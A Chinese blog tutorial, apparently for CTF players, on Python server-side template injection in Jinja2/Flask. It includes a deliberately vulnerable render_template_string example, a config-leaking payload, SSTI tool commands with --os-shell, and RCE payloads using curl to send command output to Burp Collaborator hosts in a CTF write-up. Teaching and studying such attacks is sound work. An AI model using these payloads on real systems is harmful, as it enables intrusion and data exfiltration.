









+++
author = "Lulaide"
title = "Python常见漏洞"
date = "2025-04-11"
description = "CTF比赛中常见Python漏洞"
tags = [
    "渗透",
    "Python",
    "CTF"
]
categories = ["教程&文档"]
image = "cover.png"
+++
## Python反序列化漏洞
---

## Python代码注入
---

## 网页模板渲染漏洞
> SSTI 是  Server-Side Template Injection 的缩写，意为服务端模板注入。它是指攻击者通过在输入中注入恶意代码，来操控服务器端的模板引擎，从而执行任意代码或获取敏感信息的攻击方式。SSTI 漏洞通常出现在使用模板引擎渲染网页的应用程序中，例如 Flask、Django、Jinja2 等。

| **框架**        | **默认模板引擎**                        |
|-----------------|----------------------------------------|
| Flask           | Jinja2                                 |
| Django          | Django模板引擎（Django Template Language） |
| FastAPI         | Jinja2（可选）                          |
| Pyramid         | Chameleon（默认），支持Mako、Jinja2    |
| Tornado         | Tornado模板引擎                        |
| Bottle          | SimpleTemplate（默认），支持Jinja2、Mako |
| Web2py          | Web2py模板引擎                         |
| CherryPy        | Mako（可选）                           |
| Falcon          | 无内置模板引擎（支持集成Jinja2等）      |
| Sanic           | Jinja2（可选）                          |
---
### 🌶️ Jinja2
> Jinja2 是一个现代的、设计优雅的 Python 模板引擎，常用于 Flask 等 Web 框架中。它允许开发者在 HTML 模板中嵌入 Python 代码，从而动态生成网页内容。Jinja2 的语法简单易懂，支持控制结构、过滤器和宏等功能，使得模板的编写和维护变得更加灵活和高效。

#### Jinja2 的基本语法
- 变量：使用 `{{ variable }}` 来输出变量的值。
- 控制结构：使用 `` 来编写控制结构，如循环和条件语句。
- 过滤器：使用 `{{ variable | filter }}` 来对变量进行处理，如格式化日期、转换大小写等。
- 注释：使用 `{# ... #}` 来添加注释，这些注释不会被渲染到最终的输出中。
- 宏：使用 ` ... ` 来定义可重用的代码块，类似于函数。
- 继承：使用 `` 来继承其他模板，使用 ` ... ` 来定义可重写的内容块。

示例模板：
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>{{ title }}</title>
</head>
<body>
    <h1>{{ title }}</h1>
    <p>Hello, {{ name }}!</p>
    
        <ul>
        
            <li>{{ item }}</li>
        
        </ul>
    
        <p>No items found.</p>
    
</body>
</html>
```
相应的 Python 代码：
```python
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    data = {
        "title": "我的页面",
        "name": "Alice",
        "items": ["苹果", "香蕉", "橙子"]
    }
    return render_template("index.html", **data)

if __name__ == '__main__':
    app.run(debug=True)
```
在这个示例中，`index.html` 是一个 Jinja2 模板，包含了变量和控制结构。Flask 的 `render_template` 函数会将 Python 字典中的数据传递给模板，并渲染出最终的 HTML 页面。


---

#### 渲染流程
在 Flask 中使用 Jinja2 渲染页面时，整个流程可概括如下：

1. **加载模板**  
   Flask 中调用 `render_template('index.html', key='value')`。
   
2. **Jinja2 查找模板并编译**  
   - 在指定的模板目录下找到 `index.html`，将模板文件读入内存。
   - 如果是首次渲染或配置发生改变（模板被修改、缓存失效），Jinja2 会把 `.html` 文件转换为内部可执行的 Python 代码并进行缓存。

3. **插值和执行**  
   - 将渲染调用中传入的上下文变量（如 `{'key': 'value'}`）应用到已编译的模板代码中。
   - 模板中包含的 `{{ }}`、`` 语句被替换或执行，形成最终的 HTML 字符串。

4. **返回结果**  
   - Jinja2 完成渲染后返回 HTML 字符串给 Flask，Flask 再将此字符串封装在 HTTP 响应中返回给用户浏览器。
---
#### SSTI 漏洞如何产生？
- **用户输入未经过滤**：如果应用程序直接将用户输入的数据传递给模板引擎，而不是使用 render_template 函数进行渲染，就可能导致SSTI漏洞。
- **模板引擎的特性**：虽然 Jinja2 模板引擎不能直接执行 Python 代码，但它允许使用一些内置函数和对象，这些函数和对象可以被攻击者利用来执行任意代码。
---
#### 漏洞示例
```python
from flask import Flask, request, render_template_string
app = Flask(__name__)
@app.route('/')
def index():
    user_input = request.args.get('name', '')
    template = "<h1>Hello, " + user_input + "!</h1>"
    return render_template_string(template)
if __name__ == '__main__':
    app.run(debug=True)
```
这个示例中，用户输入的 `name` 参数直接拼接到模板字符串中，而不是进行渲染。攻击者可以通过在 `name` 参数中注入 Jinja2 语法来执行任意代码。例如：
```bash
http://example.com/?name={{ config.items() }}
```
这将导致 Flask 渲染出所有配置项的列表，攻击者可以利用这个漏洞获取敏感信息。

这个示例泄露了 Flask 应用的所有配置项，包括 SECRET_KEY 和 DEBUG 模式等敏感信息。


---
#### 漏洞利用
- 框架会自动将一些全局对象注入到模板上下文中，例如 `config`、`request`、`session` 等。攻击者可以利用这些对象来执行任意代码或获取敏感信息。
下面是一个简明的表格，列出了 Flask 模板中常用的全局对象及其使用方法和示例：

| 全局对象   | 描述                                                         | 在模板中的使用方法                                      | 示例代码                                                   |
|------------|--------------------------------------------------------------|---------------------------------------------------------|------------------------------------------------------------|
| **config** | 表示 Flask 应用的配置字典，包含调试模式、密钥、数据库等信息。    | 通过索引（如 `config['DEBUG']`）或 `config.get('KEY')` 访问。 | `{{ config['DEBUG'] }}` 显示 DEBUG 模式状态。              |
| **request**| 表示当前 HTTP 请求对象，包含请求方法、查询参数、表单数据、请求头等。| 访问对象属性，如 `request.method`、`request.args` 等。  | `<p>请求方法：{{ request.method }}</p>`<br>`<p>查询参数：{{ request.args.get('name', '访客') }}</p>` |
| **session**| 用于存储跨请求会话的数据（如用户登录信息）。                     | 直接访问存储在 session 中的数据，如 `session.username`。  | `<p>欢迎回来，{{ session.username }}！</p>` |
| **g**      | 一个用于在单次请求中存放临时数据的全局命名空间。                   | 直接使用属性访问，如 `g.user`。                          | `<p>当前用户：{{ g.user }}</p>`      |
| **url_for**| 一个函数，用于根据视图函数名称生成 URL，避免硬编码路径。           | 在模板中直接调用，如 `url_for('index')`。                | `<a href="{{ url_for('index') }}">首页</a>`                 |
---
### ⚙️ Django


### 🌏 相关链接
- **文章**
    - [@0xAwali](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756)
    - [PayloadAllTheThing](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/Python/)
- **工具**
    - [焚靖](https://github.com/Marven11/FenJing)
    ```bash
    python -m fenjing scan --url 'http://xxxx:xxx/yyy'
    ```
    - [TInjA](https://github.com/Hackmanit/TInjA)
    ```bash
    python TInjA.py -u 'http://xxxx:xxx/yyy' --os-shell
    ```
    - ~~[tqlmap](https://github.com/epinna/tplmap)~~ 已被 SSTImap 替代
    ```bash
    python2 tplmap.py -u 'http://xxxx:xxx/yyy' --level 5 --risk 3 --os-shell
    ```
    - [SSTImap](https://github.com/vladko312/SSTImap)
    ```bash
    python3 sstimap.py -u 'http://xxxx:xxx/yyy' --os-shell
    ```


## ✨一些小 tips

### DNS、HTTP 外带
- **BurpSuite** -> Collaborator
> 支持的协议有：HTTP、SMTP、DNS

SSTI 利用示例
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen("curl -X POST -d \"$(echo 'Hello, world!')\" le356fozyepn25q7d27mpfhdn4tvhv5k.oastify.com").read() }}
```


#### 极客大挑战2023-web-klf_ssti
使用 `{{` 有报错，无论什么语句都显示 klf别想


可能可以成功执行，但是没有回显
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen("curl 9lvtd3vn52wb9txvkqeaw3o1us0jokc9.oastify.com/?rqs=$(ls|base64)").read() }}
```
这里接收到了命令结果


出 flag

```flag
GEEK{191de2a1-5092-428e-89a7-8aa482c7ddc8}
```